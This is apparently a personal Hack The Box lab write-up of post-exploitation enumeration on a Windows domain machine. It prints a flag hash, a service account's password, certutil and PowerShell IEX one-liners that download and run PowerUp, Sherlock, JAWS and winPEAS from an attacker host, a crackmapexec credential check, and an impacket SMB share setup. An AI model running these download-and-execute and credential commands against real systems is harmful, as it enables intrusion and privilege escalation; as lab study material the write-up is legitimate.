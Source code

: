 
We got the low level user let's escalate and do the required enumeration 
```
88ee0f1c046c9f0ca4cbe7c6003c9388
```
![[Pasted image 20231114162434.png]]

```
hostname
#User Enumeration
whoami
whoami /priv
whoami /groups
```
![[Pasted image 20231114162706.png]]

```
net user
```
![[Pasted image 20231114162920.png]]

Let's try some automated tools and see if we can got something out of it
```
certutil.exe -urlcache -f http://10.10.16.2:8000/winPEASany.exe winpeas.exe
```

Powerup
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/PowerUp.ps1') | powershell -noprofile -
```
![[Pasted image 20231114163812.png]]

Sherlock
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/Sherlock.ps1') | powershell -noprofile -
```
![[Pasted image 20231114164120.png]]

Jaws
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.2:8080/jaws-enum.ps1') | powershell -noprofile -
```


![[Pasted image 20231114164839.png]]

```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice' 
```
![[Pasted image 20231114232726.png]]


I like to dig deeper her 
```
SeMachineAccountPrivilege     Add workstations to domain     Enabled
```

Setting up a SMB-share to run Winpeas
Iwas not able to run Winpeas earlier but after seeing the video they have taught a way to do that. We have to make a smb share with user and password so let's give it a try for myself and see what happens.

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```

![[Pasted image 20231115113526.png]]
As you can see we were able to connect successfully

![[Pasted image 20231115113606.png]]

```
cd testing:
```
![[Pasted image 20231115113902.png]]
Still i was not able to run winpeas no worries as i have already enumerated and found that the exploit will not be releated to GPP xml in which we could simply find the cpassword and escalate the exploit might with GPP policy so will run Blood hound instead.




